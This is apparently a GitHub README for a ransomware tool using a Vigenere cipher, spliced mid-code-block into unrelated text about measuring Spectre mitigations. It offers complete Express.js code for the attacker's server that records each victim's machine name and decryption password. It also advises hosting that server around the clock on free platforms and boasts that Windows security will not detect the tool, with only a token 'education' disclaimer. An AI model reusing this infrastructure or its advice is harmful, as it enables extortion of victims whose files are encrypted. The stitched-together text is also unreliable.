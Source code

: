 # REVENGE RANSOMEWARE

# <h3>By Error-4-You(E4U)</h3>

## 😒😐

![C++](https://img.shields.io/badge/c++-%2300599C.svg?style=for-the-badge&logo=c%2B%2B&logoColor=white)    ![HTML5](https://img.shields.io/badge/html5-%23E34F26.svg?style=for-the-badge&logo=html5&logoColor=white)   ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)   ![Java](https://img.shields.io/badge/java-%23ED8B00.svg?style=for-the-badge&logo=java&logoColor=white)   ![PHP](https://img.shields.io/badge/php-%23777BB4.svg?style=for-the-badge&logo=php&logoColor=white)    ![Shell Script](https://img.shields.io/badge/shell_script-%23121011.svg?style=for-the-badge&logo=gnu-bash&logoColor=red)
  
# 😏😏

[![Top Langs](https://github-readme-stats.vercel.app/api/top-langs/?username=Error-4-You&langs_count=8)](https://github.com/Error-4-You/github-readme-stats)

# 🤬🤬


<p align="center">
<a href="https://github.com/Error-4-You"><img title="YouTube" src="https://img.shields.io/badge/Error-4You-brightgreen?style=for-the-badge&logo=github"></a>
<a href="https://youtube.com/channel/UCfjJgu6-VQPvcgRaygLyhqQ"><img title="YouTube" src="https://img.shields.io/badge/YouTube-Error 4 You-red?style=for-the-badge&logo=Youtube"></a>
</p>

<p align="center">
<a href="https://t.me/h4ck199"><img title="Telegram" src="https://img.shields.io/badge/Telegram-black?style=for-the-badge&logo=Telegram"></a>
<a href="https://chat.whatsapp.com/FkcQ98SucwgK1TbTfGWzsR"><img title="whatsapp" src="https://img.shields.io/badge/whatsapp-blue?style=for-the-badge&logo=whatsapp"></a>

<a href="https://chat.whatsapp.com/FkcQ98SucwgK1TbTfGWzsR">![TikTok](https://img.shields.io/badge/H4CK.LK-%23000000.svg?style=for-the-badge&logo=TikTok&logoColor=FF0F00)</a>
</p>




## LICENSE:
This software is free to distribute, modify and use with the condition that credit is provided to the creator (Error-4-You) and is not for commercial use.

## ABOUT

This repository contains a collection of scripts and code used to measure the impact of Spectre mitigations on a variety of workloads.

## Linux Command Line Options

To toggle specific mitigations, use the relevent [Linux kernel command line options](https://www.kernel.org/doc/html/v5.15/admin-guide/kernel-parameters.html). Some specific options that may be relevant:

 * `mitigations=auto` (run with default mitigations)
 * `mitigations=off` (run with no mitigations)
 * `nospec_store_bypass_disable` (disable the "speculative store bypass disable" mitigation)
 * `spec_store_bypass_disable=on` (force-enable "speculative store bypass disable" even in cases it wouldn't be enabled by default)

If your system is using grub, you can set the boot parameters by editing `/etc/default/grub` and changing the `GRUB_CMDLINE_LINUX_DEFAULT` variable. Afterwards be sure to run `sudo update-grub` or equivalent and then reboot.

Verify the currently used mitigations with:

```bash
a vigenere encrypt ransomeware created by me :p, for education purpose.
**MAKE SURE TO STAR THE REPOSITORY :)**

# Used Algorithm
- Vigenere (which is strong algorithm)

# DISCLAIMER
i didnt try this fully, so try it on virtual machine to make sure it works perfectly, If you encounter any problems tell me in [issues](https://github.com/Bowlingtoolkit/Vigenere-Ransomeware/issues)
also **i created this only for education purposes**,
also windows security **wont** detect this ransomeware :) 

# Express Node.js Server (To Get The Password For Decrypt) Example:
```js
const express = require("express");
const bodyParser = require("body-parser");
const fs = require("fs");
const app = express();

app.use(express.static(__dirname + "/public"));
app.use(bodyParser.json())
//url.com/new
app.post('/new', (req, res) => {
  var pcname = req.body.user;
  var password = req.body.pass;

  var createStream = fs.createWriteStream(`public/${pcname}.txt`);
  createStream.end();
  
  fs.writeFile(`./public/${pcname}.txt`, `password=${password}`, (err) => {
    if(err) return console.log(err);
    console.log("New Victim !")
  });
  res.send("done")
})

const listener = app.listen(3000, () => {
  console.log("Your app is listening on port 3000");
});
 
```
- You can use [glitch.com](https://glitch.com) or [repl.it](https://repl.it/) to create projects to get the decrypt password, if you want fresh project [click here for fresh glitch.com project](https://glitch.com/edit/#!/remix/revenge-ransome) [or here for repl.it project](https://repl.it/repls/SuperiorCarefulScreenscraper), but make sure to make the project 24/7 by using service like [uptimerobot](https://uptimerobot.com/).



# Detection
15/72
[Virustotal Scan Result](https://www.virustotal.com/gui/file/b74d62a432a9011e2d2c8cf16790a21bd0253ba5d5df09c08e993020985ddc1c/detection)

![virustotal](https://g.top4top.io/p_1614y4m991.png)


# Change Log:
- Now includes the decryption software :) 


![decryptsoftware](https://i.top4top.io/p_1604d9ahl1.png)



- Now supports encrypting folders .

# Warning️

<p>This tool is only for educational purpose. If you use this tool for other purposes except education we will not be responsible in such cases.</p>

 2022 © - Error-4-You

